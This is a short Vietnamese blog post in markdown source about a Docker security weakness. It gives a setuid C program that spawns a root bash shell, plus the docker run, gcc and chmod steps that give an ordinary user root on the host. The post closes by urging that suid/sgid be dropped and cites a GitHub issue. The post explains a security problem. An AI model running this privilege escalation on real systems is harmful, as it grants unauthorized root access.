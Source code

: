 ```yaml
---
title: "Docker Security"
date: 2015-11-06 14:55:50
comments: true
catergories: security
---
```

Hôm nay tác giả đọc về docker, chợt nghĩ dùng docker để get root với một
user thường, và tác giả giả lặp hành động đó như sau

# suid
Khi set suid một tập tin cho phép chạy với user owner nó bởi một user
khác, tất cả các tập tin shell script hiện tại đều bị drop suid do đó ta 
chọn một file C thay thế.

ta dùng đoạn code sau:

{% highlight c startinline %}
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid( 0 );
    system( "/bin/bash" );
    return 0;
 }

{% endhighlight %}

# docker

Docker mặc định chạy với user root hoặc user trong Dockerfile. Ta
tạo một container với lệnh sau
{% highlight bash startinline %}
docker run -v /home/dragon/Git/pacman/lib/libalpm:/mnt/lib --rm -it
jessie /bin/bash
{% endhighlight %}

trong docker:
{% highlight c startinline %}
gcc -o test test.c

chmod +s test && chmod +x test

exit
./test
[root@firewall libalpm]#
{% endhighlight %}

Tới đây ta có xuất hiện vấn đề rằng một user thông thường sử dụng docker
sẽ dẫn đến security có thể get root, nhưng dùng docker với root cũng
không khá gì hơn.

Docker cho phép sử dụng -u option để override USER trong Dockerfile. Tới
đây, ta thấy cần phải có cơ chế drop hoàn toàn suid/sgid khi exit khỏi
container. Docker giữ nguyên cả uid của owner cho file và directory
trong docker cho volume. Như vậy việc get root thông qua docker rất dễ
dàng, cách tốt nhất là drop toàn bộ suid/sgid cho file thuộc containeir
và không cho bất cứ ứng dụng nào chạy root nữa.

Một [issue](https://github.com/docker/docker/issues/12949) được mở trên
[github](github.com) tương tự cho vấn đề trên.
